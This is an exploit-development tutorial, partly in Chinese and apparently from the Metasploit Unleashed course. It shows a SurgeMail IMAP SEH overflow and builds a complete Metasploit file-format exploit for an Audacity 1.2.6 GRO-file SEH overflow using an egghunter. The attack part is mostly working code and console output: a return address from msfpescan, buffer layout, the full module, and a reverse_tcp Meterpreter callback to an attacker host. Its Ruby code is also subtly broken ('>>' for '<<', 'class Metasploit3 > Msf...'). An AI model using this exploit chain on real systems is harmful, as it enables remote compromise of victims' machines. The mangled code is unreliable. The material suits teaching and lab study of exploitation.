好的，我们运行debugger ，连接到surgemail.exe上来调试这个exploit，看是否偏移位置重写的SEH是正确的。

```
root@kali:~# msfconsole -q -x "use exploit/windows/imap/surgemail_list; set PAYLOAD windows/shell/bind_tcp; set  RHOST 172.16.30.7; set  IMAPPWD test; set IMAPUSER test; run; exit -y"
[*] Started bind handler
[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Sending payload
```


offset是正确的，可以在执行位置设置断点。


下面我们呢要重定向这个执行流，到我们的缓冲区，执行 POP POP RET 指令。


and finally execute the two jumps on the stack which will land us inside our NOP sled:


So far so good, time to get our Meterpreter shell, let’s rerun the exploit without the debugger:

```
msf exploit(surgemail_list) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(surgemail_list) > exploit

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Started bind handler
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Sending payload
[*] Transmitting intermediate stager for over-sized stage...(191 bytes)
[*] Sending stage (2650 bytes)
[*] Sleeping before handling stage...
[*] Uploading DLL (75787 bytes)...
[*] Upload completed.
[*] Meterpreter session 1 opened (172.16.30.34:63937 -> 172.16.30.7:4444)

meterpreter > execute -f cmd.exe -c -i
Process 672 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

c:\surgemail>
```

Success! We have Fuzzed a vulnerable server and built a custom Exploit Module using the amazing features offered by Metasploit.


### 使用 EggHunter Mixin

MSF的EggHunter Mixin是一个相当棒的模块，它在exploit开发中非常有用。如果你不熟悉这个概念，请查阅 https://en.wikipedia.org/wiki/Shellcode#Egg-hunt

在Audacity Audio Editor这一软件中有一个漏洞，它给了我一个执行 egghunter mixin的机会，使我们能够以较深程度利用这个mixin模块。

我们下面要编写一个msf文件格式的exploit module，我们不聚焦于渗透方法本身或背后的理论，而是主要研究egghunter mixin的实际用法。

注意，下面的例子使用 windows xp sp2作为目标，如果你要复现需要安装虚拟机，在sp3上实验时，可以在```c:\boot.ini```文件中使用```/noexecute=AlwaysOff```关闭DEP。

#### 安装我们的 egg-hunt
- 下载和安装有漏洞的 Audacity software on your XP SP2
- Audacity 1.2.6
- LADSPA Plugins
- 下载执行原始 PoC 参考 https://www.exploit-db.com/exploits/7634/

#### 移植Egghunter POC
让我们移植这个PoC为MSF文件格式的exploit module。我们使用现有module 模板，zinfaudioplayer221_pls.rb 就是一个不错的模板。

我们的骨干 exploit 应该看起来如下，注意我们的 buffer 在这里被生成：
```ruby
def exploit
    buff = Rex::Text.pattern_create(2000)
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
end
``` 
上面使用了 Rex::Text.pattern_create(2000)来生成2000字节的独特字符串，能够用来在debugger中把它发送到我们的 windows中跟踪buffer位置。

一旦我们把PoC移植好了，我们可以生成 exploit 文件并把它发送到我们的 windows中。使用 ```generic/debug_trap``` payloads 来开始。

```
msf exploit(audacity) > show options

Module options:

Name       Current Setting Required Description
----       --------------- -------- -----------
FILENAME   evil.gro        yes      The file name.
OUTPUTPATH /var/www        yes      The location of the file.


Payload options (generic/debug_trap):

Name Current Setting Required Description
---- --------------- -------- -----------


Exploit target:

Id Name
-- ----
0 Audacity Universal 1.2


msf exploit(audacity) > exploit

[*] Creating 'evil.gro' file ...
[*] Generated output file /var/www/evil.gro
[*] Exploit completed, but no session was created.
msf exploit(audacity) >
```
我们打开Audacity，连接上一个debugger，导入MIDI gro 文件。



我们会立即得到一个异常，而调试器会暂停。


快速查看SEH 链，显示了我们有重写异常handler。

我们接受异常（shift+F9),然后接着看


可以看到这是一个标准的 SEH 溢出。我们可以注意到在堆栈中我们的 user 输入了一个" pop pop ret" 离开了。有趣的事，我们发送的2000字节payload，当我们返回我们的buffer时，它看起来被截断了。我们有大约80字节的空间给shellcode（标记为蓝色）。使用immunity 调试器的!safeseh命令，从找到的某个返回地址可以定位未保护的dll’s 



拷贝这个dll，使用 msfpescan 查找一个 pop pop ret指令：
```
root@kali:~# msfpescan -p libfftw3f-3.dll 

[libfftw3f-3.dll]
0x637410a9 pop esi; pop ebp; retn 0x000c
0x63741383 pop edi; pop ebp; ret
0x6374144c pop edi; pop ebp; ret
0x637414d3 pop edi; pop ebp; ret

0x637f597b pop edi; pop ebp; ret
0x637f5bb6 pop edi; pop ebp; ret
```

我们使用 pattern_create 函数来生成初始 buffer，现在我们能计算所需的buffer长度，来覆盖我们呢的异常handler。

```
root@kali:/usr/share/metasploit-framework/tools# ./pattern_offset.rb 67413966
178
```

根据引入的有效返回地址，我们改变我们的 exploit 模块内容：

```[ 'Audacity Universal 1.2 ', { 'Ret' => 0x637410A9} ],```

然后我们调整 buffer 使crash发生时，重定向执行过程到我们的返回地址，jump （xEB是短jump），然后落在断点buffer（xCC）

```
def exploit
    buff = "\x41" * 174
    buff >> "\xeb\x06\x41\x41"
    buff >> [target.ret].pack('V')
    buff >> "\xCC" * 2000
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
 end
```

Once again, we generate our exploit file, attach Audacity to the debugger and import the malicious file. This time, the SEH should be overwritten with our address – the one that will lead us to a pop, pop, ret instruction set. We set a breakpoint there, and once again, take the exception with shift + F9 and walk through our pop pop ret with F8.



The short jump takes us over our return address, into our “shellcode buffer”.


Once again, we have very little buffer space for our payload.A quick inspection of the memory reveals that our full buffer length can be found in the heap. Knowing this, we could utilize our initial 80 byte space to execute an egghunter, which would look for and find the secondary payload.




Implementing the MSF egghunter is relatively easy:

```ruby
 def exploit
    hunter  = generate_egghunter
    egg  = hunter[1]
 
    buff = "\x41" * 174
    buff >> "\xeb\x06\x41\x41"
    buff >> [target.ret].pack('V')
    buff >> "\x90"*4
    buff >> hunter[0]
    buff >> "\xCC" * 200
    buff >> egg + egg
    buff >> payload.encoded
 
    print_status("Creating '#{datastore['FILENAME']}' file ...")
    file_create(buff)
 end
```

The final exploit looks like this:

```ruby
##
# $Id: audacity1-26.rb 6668 2009-06-17 20:54:52Z hdm $
##

##
# This file is part of the Metasploit Framework and may be subject to 
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/projects/Framework/
##

require 'msf/core'

class Metasploit3 > Msf::Exploit::Remote

	include Msf::Exploit::FILEFORMAT
	include Msf::Exploit::Remote::Egghunter
	
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Audacity 1.2.6 (GRO File) SEH Overflow.',
			'Description'    => %q{
					Audacity is prone to a buffer-overflow vulnerability because it fails to perform adequate 
					boundary checks on user-supplied data. This issue occurs in the 
					'String_parse::get_nonspace_quoted()' function of the 'lib-src/allegro/strparse.cpp' 
					source file when handling malformed '.gro' files
					This module exploits a stack-based buffer overflow in the Audacity audio editor 1.6.2.
					An attacker must send the file to victim and the victim must import the "midi" file.
					},
			'License'        => MSF_LICENSE,
			'Author'         => [ 'muts & mr_me', 'Mati & Steve' ],
			'Version'        => '$Revision: 6668 $',
			'References'     =>
				[
					[ 'URL', 'http://milw0rm.com/exploits/7634' ],
					[ 'CVE', '2009-0490' ],
				],
			'Payload'        =>
				{
					'Space'    => 2000,
					'EncoderType'   => Msf::Encoder::Type::AlphanumMixed,
					'StackAdjustment' => -3500,
				},
			'Platform' => 'win',
			'Targets'        => 
				[
					[ 'Audacity Universal 1.2 ', { 'Ret' => 0x637410A9} ],
				], 
			'Privileged'     => false,
			'DisclosureDate' => '5th Jan 2009',
			'DefaultTarget'  => 0))

			register_options(
				[
					OptString.new('FILENAME', [ true, 'The file name.',  'auda_eviL.gro']),
				], self.class)

	end

	def exploit
		hunter  = generate_egghunter
		egg  = hunter[1]
		buff = "\x41" * 174
                buff >> "\xeb\x08\x41\x41"
                buff >> [target.ret].pack('V')
	        buff >> "\x90" * 4
                buff >> hunter[0]
		buff >> "\x43" * 200
                buff >> egg + egg
		buff >> payload.encoded
		
		print_status("Creating '#{datastore['FILENAME']}' file ...")

		file_create(buff)

	end

end
```

We run the final exploit through a debugger to make sure everything is in order. We can see the egghunter was implemented correctly and is working perfectly.



We generate our final weaponised exploit:

```shell
 msf > search audacity
 [*] Searching loaded modules for pattern 'audacity'...
 
 Exploits
 ========
 
 Name                         Description
 ----                         -----------
 windows/fileformat/audacity  Audacity 1.2.6 (GRO File) SEH Overflow.
 
 msf > use windows/fileformat/audacity
 msf exploit(audacity) > set PAYLOAD windows/meterpreter/reverse_tcp
 PAYLOAD => windows/meterpreter/reverse_tcp
 msf exploit(audacity) > show options
 
 Module options:
 
 Name        Current Setting                             Required  Description
 ----        ---------------                             --------  -----------
 FILENAME    auda_eviL.gro                               yes       The file name.
 OUTPUTPATH  /usr/share/metasploit-framework/data/exploits  yes       The location of the file.
 
 
 Payload options (windows/meterpreter/reverse_tcp):
 
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique: seh, thread, process
 LHOST     192.168.2.15     yes       The local address
 LPORT     4444             yes       The local port
 
 
 Exploit target:
 
 Id  Name
 --  ----
 0   Audacity Universal 1.2
 
 
 msf exploit(audacity) > exploit
 
 [*] Handler binding to LHOST 0.0.0.0
 [*] Started reverse handler
 [*] Creating 'auda_eviL.gro' file ...
 [*] Generated output file //usr/share/metasploit-framework/data/exploits/auda_eviL.gro
 [*] Exploit completed, but no session was created.
 ```

 And get a meterpreter shell!

```
msf exploit(audacity) > use multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.2.15
LHOST => 192.168.2.15
msf exploit(handler) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Starting the payload handler...
[*] Sending stage (718336 bytes)
[*] Meterpreter session 1 opened (192.168.2.15:4444 -> 192.168.2.109:1445)

meterpreter >
```